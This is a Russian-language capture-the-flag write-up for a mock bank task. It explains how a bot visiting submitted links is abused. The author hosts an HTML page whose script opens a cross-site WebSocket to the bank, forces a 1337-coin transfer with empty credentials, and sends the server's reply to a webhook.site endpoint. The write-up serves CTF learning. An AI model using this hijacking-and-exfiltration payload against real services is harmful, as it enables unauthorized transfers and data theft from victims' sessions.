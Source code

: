 Создаем аккаунт на сайте. Видим цель: Buy 1000 matchboxes, запрашивает 1337 монет. Из способов получить монеты только перевод.

В main.js видно что используется WebSocket

```js
ws = new WebSocket(`wss://${host}/ws`);
```

Функции перевода и проверки баланса

```js
function transfer() {
 auth();
 ws.send(JSON.stringify({
  "action":"transfer",
  "login": loginInput.value,
  "password": passwordInput.value,
  "amount": parseInt(amountInput.value),
  "to": recipientInput.value
 }))
}
```

```js
function balance() {
 auth();
 ws.send(JSON.stringify({
  "action": "balance",
  "login": loginInput.value,
  "password": passwordInput.value
 }))
}
```

Снизу на сайте есть форма для отправки ссылок "на проверку администрации". Отправив ссылку на webhook.site, пришел запрос с User-Agent

Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/123.0.0.0 Safari/537.36

Видим, что это Headless Chrome, значит можно эксплуатировать скрипты. Включаем CORS в настройках webhook.site. Пишем простую html страничку:

```html
<script>
  const ws = new WebSocket("wss://t-bank-kum1nkhz.spbctf.net/ws");
  ws.onopen = () => {
    ws.send(
      JSON.stringify({
        action: "transfer",
        login: "",
        password: "",
        amount: 1337,
        to: "privettinkoff212",
      })
    );
  };

  ws.onmessage = (event) => {
    fetch("https://webhook.site/eff4db58-63d2-40ed-8d52-fd046f465b0f", {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        data: event.data,
      }),
    });
  };
</script>
```

Захостить её можно, например, на surge.sh. Здесь мы пробуем выполнить перевод не указав логин и пароль, ибо банально не знаем их. И чудо, оно успешно переводит монеты, о чём приходит запрос на вебхук сайт. Остаётся обновить страницу банка, снова нажать Buy 1000 matchboxes и забрать флаг



